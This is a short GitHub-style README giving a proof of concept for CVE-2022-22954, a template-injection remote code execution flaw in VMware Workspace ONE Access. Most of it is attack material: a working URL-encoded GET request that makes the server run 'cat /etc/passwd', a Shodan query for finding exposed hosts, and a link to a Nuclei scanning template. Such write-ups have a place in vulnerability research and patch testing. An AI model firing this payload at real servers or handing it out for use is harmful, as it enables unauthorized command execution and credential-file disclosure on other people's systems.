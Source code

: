 # CVE-2022-22954
VMware Workspace ONE Access Freemarker SSTI RCE  
&nbsp;
## POC:
Use following GET request to execute ```cat /etc/passwd``` command.
```
Target.com/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```
&nbsp;
## Shodan Query:
```
http.favicon.hash:-1250474341
```
&nbsp;
## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;
## Credit
Based on [sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954/blob/main/README.md) github page.
